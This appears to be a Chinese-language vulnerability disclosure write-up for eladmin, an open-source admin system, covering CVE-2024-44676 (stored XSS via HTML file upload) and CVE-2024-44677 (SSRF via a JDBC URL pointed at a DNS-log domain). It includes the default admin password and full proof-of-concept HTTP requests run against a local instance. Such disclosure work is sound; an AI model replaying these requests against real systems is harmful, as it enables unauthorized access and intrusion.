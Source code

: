 ```yaml
---
title: eladmin-CVE-2024-44676_CVE-2024-44677
date: 2024-09-09 09:32:57
tags:
---
```


# 0.github项目地址

[elunez/eladmin: eladmin jpa 版本：项目基于 Spring Boot 2.6.4、 Jpa、 Spring Security、Redis、Vue的前后端分离的后台管理系统，项目采用分模块开发方式， 权限控制采用 RBAC，支持数据字典与数据权限管理，支持一键生成前后端代码，支持动态路由 (github.com)](https://github.com/elunez/eladmin)

# CVE-2024-44676、CVE-2024-44677

# 1.用默认密码登录后台

admin/123456

![image-20240909093504969](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909093504969.png)

# CVE-2024-44676

XSS漏洞

## 1.找到文件存储功能

系统工具 - 存储股那里 - 文件上传

![image-20240909094917731](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909094917731.png)

上传文件，数据包如下

```
POST /api/localStorage?name=111 HTTP/1.1
Host: localhost:8000
Content-Length: 204
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydm6xWQjws9AqeeBj
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Origin: http://localhost:8013
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarydm6xWQjws9AqeeBj
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: text/html

<script>alert(1)</script>
------WebKitFormBoundarydm6xWQjws9AqeeBj--

```

## 2.访问文件地址

如下图，出现弹窗，证明了存在xss漏洞

![image-20240909094818168](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909094818168.png)

# CVE-2024-44677

SSRF漏洞

## 1.访问dnslog平台并申请域名

![image-20240909093611696](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909093611696.png)

域名为 ae2a2f2773.ipv6.1433.eu.org.

## 2.在数据库管理中测试ssrf

testssrf.ae2a2f2773.ipv6.1433.eu.org.

漏洞点在 运维管理 - 数据库管理 - 新增数据库 - jdbc地址

![image-20240909094023940](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909094023940.png)

数据包为

```
POST /api/database HTTP/1.1
Host: localhost:8013
Content-Length: 111
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8013
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/mnt/mnt/database
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=6ff9d0e1; ELADMIN-TOEKN=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
Connection: close

{"id":null,"name":"11","jdbcUrl":"jdbc:mysql://testssrf.ae2a2f2773.ipv6.1433.eu.org.","userName":"1","pwd":"1"}
```

点击确定后能看到右上角提示新增成功

![image-20240909094257824](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909094257824.png)

点击 jdbc 地址右侧的测试

![image-20240909094440434](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909094440434.png)

数据包为

```
POST /api/database/testConnect HTTP/1.1
Host: localhost:8013
Content-Length: 253
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8013
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/mnt/mnt/database
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=6ff9d0e1; ELADMIN-TOEKN=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
Connection: close

{"id":"3e070f45c072498299675b4f290137bd","name":"11","jdbcUrl":"jdbc:mysql://testssrf.ae2a2f2773.ipv6.1433.eu.org.","userName":"aaa","pwd":"111","createBy":"admin","createTime":"2024-09-09 09:42:42","updateBy":"admin","updateTime":"2024-09-09 09:44:21"}
```

回到dndlog平台，如下图所示，有dns请求解析记录，证明了ssrf漏洞

![image-20240909094520768](eladmin-CVE-2024-44676_CVE-2024-44677/image-20240909094520768.png)
